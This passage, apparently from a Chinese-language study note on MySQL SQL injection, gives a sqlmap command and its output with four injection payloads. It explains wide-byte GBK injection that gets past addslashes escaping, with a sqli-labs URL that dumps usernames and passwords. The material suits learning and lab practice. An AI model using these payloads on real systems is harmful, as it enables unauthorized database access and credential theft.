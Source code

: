 ![image-20201207160206033](C:\Users\32662\AppData\Roaming\Typora\typora-user-images\image-20201207160206033.png)

```
python sqlmap.py -r target.txt --level 3 --batch
```

payload:

```
Parameter: Cookie #1* ((custom) HEADER)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: uname=admin' AND 6901=6901-- FpnT

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: uname=admin' AND GTID_SUBSET(CONCAT(0x71627a7071,(SELECT (ELT(9508=9508,1))),0x71766a7871),9508)-- kWcz

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: uname=admin' AND (SELECT 6663 FROM (SELECT(SLEEP(5)))sHMZ)-- iCIs

    Type: UNION query
    Title: Generic UNION query (NULL) - 4 columns
    Payload: uname=-8722' UNION ALL SELECT NULL,NULL,CONCAT(0x71627a7071,0x4f414141466c504c686648564856454869665a68614a4b564d6c4775556f6d6d79464e446f6f7078,0x71766a7871)-- -
```



## 宽字节注入

原理：

大家都知道%df’ 被PHP转义（开启GPC、用addslashes函数，或者icov等），单引号被加上反斜杠\，变成了 %df\’，其中\的十六进制是 %5C ，那么现在 `%df\’` =`%df%5c%27`，如果程序的默认字符集是GBK等宽字节字符集，则MySQL用GBK的编码时，会认为 `%df%5c` 是一个宽字符，也就是`縗`，也就是说：%df\’ = %df%5c%27=縗’，有了单引号就好注入了。

![image-20201213151446003](D:\document\md\数据库(MySQL)相关注入语句的收集和学习.assets\image-20201213151446003.png)

示例：

```
http://127.0.0.1/sqlilabs/Less-33/index.php?id=%df' union select 1,group_concat(username,0x7e,password),3 from users--+
```

![image-20201210204415465](C:\Users\32662\AppData\Roaming\Typora\typora-user-images\image-20201210204415465.png)



## 二次注入

原理：
